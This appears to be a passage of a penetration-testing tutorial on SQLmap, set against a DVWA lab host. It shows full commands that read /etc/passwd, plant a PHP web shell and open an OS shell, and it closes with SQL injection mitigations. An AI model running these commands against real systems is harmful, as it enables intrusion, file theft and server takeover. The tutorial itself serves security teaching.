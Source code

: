 We can modify the verbosity level of SQLmap by specifying `-v <#>`. The available options are:

* 0: Show only Python tracebacks, error and critical messages.
* 1: Show also information and warning messages.
* 2: Show also debug messages.
* 3: Show also payloads injected.
* 4: Show also HTTP requests.
* 5: Show also HTTP responses’ headers.
* 6: Show also HTTP responses’ page content.

### Downloading and Uploading with SQLMap

We can optionally interact with the filesystem (`sqlmap -hh` for details).
We can use:

* `--file-read=FILE`
* `--file-write=FILE`
* `--file-dest=FILE` 

How can we use this with SQLMap?
```shell
# Read /etc/passwd
sqlmap -u "http://10.11.1.250/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=5ee561bcdd7a6e01960b0ceded6b1f3b; security=low" --batch --dbms="MySQL 5.0" --file-read=/etc/passwd

# Create a PHP web shell
# file-write is a local path; file-dest is the target path
sqlmap -u "http://10.11.1.250/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=5ee561bcdd7a6e01960b0ceded6b1f3b; security=low" --batch --dbms="MySQL 5.0" --file-write="/tmp/shell.php" --file-dest="/var/www/shell.php"
```

### Achieving an OS-Shell

```shell
sqlmap -u "http://10.11.1.250/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=5ee561bcdd7a6e01960b0ceded6b1f3b; security=low" --batch --dbms="MySQL 5.0" --os-shell
```

### References

https://sqlmap.org/
https://github.com/sqlmapproject/sqlmap/wiki/Usage

### Mitigations

Most  SQL injection vulnerabilities can be easily avoided in your code. 
Most  vulnerabilities are introduced by using dynamic queries that entail some kind of user input.

- Use prepared statements with parameterized queries. Prepared statements are effective against SQL injection attacks when properly implemented.
- Use stored procedures. While not always safe from SQL injection they can be implemented in a safe way by using parameters instead of dynamic user input.
- Apply the principle of least privileges and permissions to database user accounts. Restrict access to databases and tables and functions will minimize the impact if the server is breached and limit an attacker’s privileges on the database server.
- Create a role for executing stored procedures with execute only rights instead of a role that has full rights.
- Validate all untrusted data, such as user input, by constraining and sanitizing all input server side. There are many ways to validate user input, a good start is to check the input for type, length and range. You should also blacklist characters that might pose a risk, or even better whitelist those characters allowed as user input. Use escape routines to handle special characters.
- Perform validation of untrusted data on the server side. Client-side validation can easily be circumvented using a browser and additional tools.
- Do not disclose error information by using structured exception handling.
- Encrypt sensitive data and use strong, secure hashing algorithms for passwords.
- Use a Web Application Firewall (WAF) 
